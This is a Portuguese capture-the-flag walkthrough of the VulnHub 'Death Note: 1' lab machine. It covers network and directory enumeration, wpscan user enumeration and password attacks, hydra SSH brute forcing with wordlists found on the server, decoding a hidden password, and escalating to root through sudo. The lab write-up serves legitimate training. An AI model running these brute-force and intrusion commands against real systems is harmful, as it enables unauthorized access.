# Death Note: 1

Local: [vulnhub.com](vulnhub.com)  
Dificuldade: Fácil

## Identificação e Enumeração

O primeiro passo foi encontrar o endereço da máquina:

```bash
netdiscover
```



O endereço que quero é o último(192.168.0.197) os outros são o meu e do meu roteador

Com o Endereço, iniciei um portscan para identificar os serviços e suas portas

```bash
nmap -sS -sV -p- 192.168.0.197
```



Vemos que existem somente dois serviços, um http na porta 80 e um ssh na porta 22, ao olhar o conteúdo da porta 80, ele tenta redirecionar para o domínio http://deathnote.vuln/ mas ele não existe, então acidionei a seguinte linha no meu arquivo /etc/hosts

- 192.168.0.197 deathnote.vuln

Agora, ao acessar o IP ele recirediona para um site feito em wordpress com o tema de Death Note, na págin principal há um item chamado HINT(http://deathnote.vuln/wordpress/index.php/hint/) que abre uma nova página com algumas dicas:


Eu executei alguns webcrawlings para tentar encontrar algum arquivo ou diretório que pudesse ajudar a prosseguir:

```bash
dirb http://deathnote.vuln/ /usr/share/wordlists/dirb/common.txt
```



- /manual/ é um diretório do apache, com documentação, links importantes, etc
- /wordpress/ é onde está o site
- /robots.txt é o arquivo para mecanismos de busca e indexação, que permite definir urls que não devem ser indexadas

O arquivo notes.txt citado na dica não foi encontrado, então resolvi aprimorar minha busca, vi sobre a organização de arquivos do wordpress e um artigo que me ajudou muito foi esse: https://www.wpbeginner.com/beginners-guide/beginners-guide-to-wordpress-file-and-directory-structure/

Sabendo que os arquivos do servidor vão para a pasta /wp-content/uploads/<ANO>/<MES> então escrevi o seguinte script em shell script

```bash
for i in {2019..2021}; do
  for j in {01..12}; do
    dirb http://deathnote.vuln/wordpress/wp-content/uploads/$i/$j /usr/share/wordlists/dirb/common.txt -X .txt;
  done
done
```



Com isso encontrei dois arquivos, user.txt e notes.txt que foi citado na dica anterior

Olhando o conteudo dos arquivos encontramos o seguinte

notes.txt: parece ser uma wordlist de senhas

```
curl http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt
```



user.txt: parece ser uma wordlist de usuarios

```bash
curl http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt
```



Com essas informações posso fazer um bruteforce sobre o login do wordpress ou sobre o login do ssh.
Antes de fazer isso tentei identificar os usuarios do site com o wpscan

```
wpscan --url http://deathnote.vuln/wordpress/ -e u
```



## Exploração

Ele identificou um usuário chamado kira, então usando o wpscan novamente fiz um ataque de força bruta para tentar conseguir o login

```
wpscan --url http://deathnote.vuln/wordpress/ -P notes.txt -U kira
```

Mas ele não me retornou nenhum login válido , então achei que pudesse ser outro usuário que o wpscan não encontrou, então fiz o seguinte:

```bash
s=''
for i in $(cat user.txt); do
  s=$i","$s;
done
echo $s
wpscan --url http://deathnote.vuln/wordpress/ -P notes.txt -U $s
```

Ainda assim ele não encontrou nenhum usuário válido, então achei que essa wordlist não fosse referente ao site, mas sim ao ssh que encontramos no portscan
Então fiz um bruteforce usando hydra

```bash
hydra -vI -L user.txt -P notes.txt 192.168.0.197 ssh
```

e ele encontrou as seguintes credenciais



Com isso podemos se conectar via ssh partir para escalação de privilégios

```
ssh l@192.168.0.197
```

Ao entrar na pasta pessoal de l, temos outro arquivo chamado user.txt, mas esse contendo um brainfuck

```
cat user.txt
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.<<++.>>+++++++++++.------------.+.+++++.---.<<.>>++++++++++.<<.>>--------------.++++++++.+++++.<<.>>.------------.---.<<.>>++++++++++++++.-----------.---.+++++++..<<.++++++++++++.------------.>>----------.+++++++++++++++++++.-.<<.>>+++++.----------.++++++.<<.>>++.--------.-.++++++.<<.>>------------------.+++.<<.>>----.+.++++++++++.-------.<<.>>+++++++++++++++.-----.<<.>>----.--.+++..<<.>>+.--------.<<.+++++++++++++.>>++++++.--.+++++++++.-----------------.
```

Ao decodificar esse brainfuck, temos:

- i think u got the shell , but you wont be able to kill me -kira

Se olharmos em /home tem uma pasta pessoal para kira também, nela existem alguns arquivos que não podemos acessar, mas tem algo interessante. podemos ler o conteudo de .ssh/authorized_keys e lá vemos que existe uma chave se l, ou seja, podemos se conectar como kira usando nossa chave ssh

```
ssh kira@localhost
```

e agora estamos conectados como kira. O primeiro arquivo que temos é kira.txt que contem um bas64, quando decodificamos temos o seguinte conteudo

```
$ cat kira.txt | base64 -d;echo
please protect one of the following
1. L (/opt)
2. Misa (/var)
```

já temos dois diretórios para acessar:

- **/opt**: dentro dele tem uma pasta chaamda L com dois diretórios
  - **/fake-notebook-rule/**:

```
$ cat case.wav
63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d
```

```
$ cat hint
use cyberchef
```

Isso é um hexadecimal que diz: cGFzc3dkIDoga2lyYWlzZXZpbCA=

Isso é um base64, que diz:

```
$ echo "cGFzc3dkIDoga2lyYWlzZXZpbCA=" | base64 -d;echo
passwd : kiraisevil
```

Essa é a senha de kira, mas como já estamos conectados com seu usuário não preciamos dela agora

- **/kira-case**:

```
$ cat case-file.txt
the FBI agent died on December 27, 2006

1 week after the investigation of the task-force member/head.
aka.....
Soichiro Yagami's family .


hmmmmmmmmm......
and according to watari ,
he died as other died after Kira targeted them .


and we also found something in
fake-notebook-rule folder .
```

Aqui só orienta a olhar o arquivo que já olhamos.

Partindo para o outro diretório

- /var: Existe um arquivo chamado misa, mas ele não tem nada muito interessante

```
$ cat misa
it is toooo late for misa
```

## Escalação de Privilégios

Já escalamos de l para kira antes, mas precisamos nos tornar root. A primeira coisa que fiz foi olhar possiseis executáveis que fossem executados como root, cronjobs, e que permissões de execução o usuário tinha
Descobri o sequinte:
Obs.: Aqui vamos usar a senha que conseguimos antes

```
$sudo -l
```



Ele pode executar todos os comandos como root, então só fiz:

```
sudo su
```

e estamos conectados como root

```
$cat root.txt
```


